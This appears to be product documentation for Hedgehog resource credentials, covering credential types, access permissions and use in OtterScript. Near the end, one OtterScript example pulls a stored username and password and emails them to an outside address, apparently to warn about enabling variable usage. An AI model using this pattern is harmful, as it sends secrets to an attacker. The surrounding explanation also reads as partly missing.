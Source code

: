 ﻿---
title: Resource Credentials
sequence: 300
keywords: hedgehog,executions,resource-credentials
show-headings-in-nav: true

---
Resource credentials store information that is used to provide access to a particular resource (such as a name and password to a specific service), and may contain secrets (i.e. encrypted fields that are visible only to privileged users, like passwords or API keys)

There are a few types that are built in to Hedgehog:

| Type | Properties | Description |
| ---  | ---        | ---         |
| UsernamePassword| UserName <br/> Password* | A general-purpose credential with a username and password, such as a Windows domain account. Several operations can use this to request a basic username/password. |
| PrivateKey | UserName <br />  PublicKey <br />  PrivateKey* <br /> Passphrase* | This is primarily used by the SSH-based agent when key-based authentication is used. |
| InedoProduct | Host <br /> ApiKey* | Represents a connection to instance of another Inedo product (BuildMaster, ProGet, Hedgehog, or Otter) |

`*` indicates an encrypted/sensitive field

Resource credentials are implemented through an [extensible feature](/support/documentation/hedgehog/administration/extensions), and several extensions ([VSTS](/den/inedox/tfs), [GitHub](/den/inedox/github), etc.) will add types that are necessary for the extension's components.

### Creating and Editing Credentials {#creating-editing data-title="Creating and Editing Credentials"}

You can create a resource credential from the Resource Credentials link on the Administration page. In addition to the fields specific to the resource credential type, all resource credentials have:

{.docs}
- **Name** - a name of up to 50 characters that will be used to reference the resource credential; while you can change the name later, any operation or component that relied on that name will no longer be able to find it
- **Environment** - optional; restricts what environments the credential may be used in, and which users have access to it
- **Variable Usage** – optional; you can allow the <code>$CredentialProperty</code> variable function to extract secure properties
- **Environment Restriction** – optional; when set, a runtime error will occur when this credential is used in a deployment plan that is not running in the same environment

When editing credentials, the encrypted fields will be displayed as empty password textboxes, and entering a value in the textbox will change it. You may click the "view hidden fields" button to show these values if you have the appropriate permissions.

## Limiting Credential Access {#limiting data-title="Limiting Credential Access"}

You may want to permit or restrict certain users from accessing certain credentials, such as allowing Developers to manage credentials in the Integration and Testing environments. This is done by associating credentials with an environment, and then creating the appropriate [access controls](/support/documentation/hedgehog/administration/security) scoped to that environment.

There are two task attributes you can use to control this access:

{.docs}
- **Manage Credentials** will allow you to view, delete, and edit credentials, but not view existing encrypted/sensitive fields
- **View Passwords** will allow you to view encrypted/sensitive fields on a credential

On the manage credentials page, users will only see the credentials they have permission to manage, and will only be able to create credentials in permitted environments.

## Credentials and OtterScript {#credentials-otterscript data-title="Credentials and OtterScript"}

Any operation that uses passwords, API keys, or sensitive information will give you the option to use a resource credential instead of needing to put those values directly in your OtterScript.

For example, consider the [`Ensure-AppPool`](/support/documentation/buildmaster/reference/operations/iis/ensure-app-pool) operation:

![](/resources/documentation/buildmaster/6/ensure-app-pool.png)

If you select a resource credential for the operation's, the OtterScript runtime will automatically set the value of the operations User Name and Password properties from the selected credential. If you specify a value for either of those properties, they will be used instead of the credential's value.

:::attention{.technical}
![](/resources/images/icons/technical.png) If the credential has "restricted to environment use" configured, then this will only be permitted if the deployment plan is running in the same environment. This can be frustrating and unintuitive to your users, so be careful when using it.
:::

## Credentials as Variables {#credentials-variables data-title="Credentials as Variables"}

By default, there is no way to access the value of an encrypted/sensitive field on a credential from within OtterScript. However, at times it may be necessary, such as if you want to pass a username/password to a script or command-line utility.

You can enable variable usage on a credential-by-credential basis. When configured, you can use the `$CredentialProperty` variable function to extract any property value. For example,

```
set $HDarsUser = $CredentialProperty(UsernamePassword::HDarsUser, UserName);
set $HDarsPassword = $CredentialProperty(UsernamePassword::HDarsUser, Password);
PSExec >> Register-HDars $HdarsUser $HdarsPassword >>;        
```

```
Send-Email
(
    To: hacker45@agam.ru,
    Subject: Username is $HdarsUser and password is $HdarsPassword
); >>;
```

Instead, you should write a custom operation that can securely handle the credentials.
